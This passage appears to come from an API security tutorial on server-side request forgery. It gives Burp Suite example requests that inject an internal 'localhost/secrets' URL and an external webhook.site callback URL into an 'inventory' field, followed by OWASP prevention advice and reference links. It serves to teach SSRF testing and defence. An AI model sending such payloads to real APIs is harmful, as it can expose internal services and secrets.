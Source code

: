 ```http

`_"inventory:"_**_§_****_http://localhost/secrets_****_§"_**`

} 

**Response:**

HTTP/1.1 200 OK
headers...
{}
```

Burp Suite Pro has a great tool called Burp Suite Collaborator. Collaborator can be leveraged to set up a web server that will provide us with the details of any requests that are made to our random URL.

```http

**Attack**:

`_POST api/v1/store/products_`

`_headers…_`

`_{_`

`_"inventory":"_**_§[https://webhook.site/306b30f8-2c9e-4e5d-934d-48426d03f5c0](https://webhook.site/306b30f8-2c9e-4e5d-934d-48426d03f5c0)_****_§"_**`

 }

```
## [  OWASP Preventative Measures](https://owasp.org/API-Security/editions/2023/en/0xa7-server-side-request-forgery/)

- Isolate the resource fetching mechanism in your network: usually, these features are aimed to retrieve remote resources and not internal ones.
- Whenever possible, use allow lists of:
    - Remote origins users are expected to download resources from (e.g. Google Drive, Gravatar, etc.)
    - URL schemes and ports_
    - Accepted media types for a given functionality
- Disable HTTP redirections.
- Use a well-tested and maintained URL parser to avoid issues caused by URL parsing inconsistencies.
- Validate and sanitize all client-supplied input data.
- Do not send raw responses to clients.

## Additional Resources

- [Server Side Request Forgery](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery)
- [Server-Side Request Forgery Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
- [CWE-918: Server-Side Request Forgery (SSRF)](https://cwe.mitre.org/data/definitions/918.html)
- [URL confusion vulnerabilities in the wild: Exploring parser inconsistencies, Snyk](https://snyk.io/blog/url-confusion-vulnerabilities/)
- [Web Security Academy: SSRF](https://portswigger.net/web-security/ssrf)

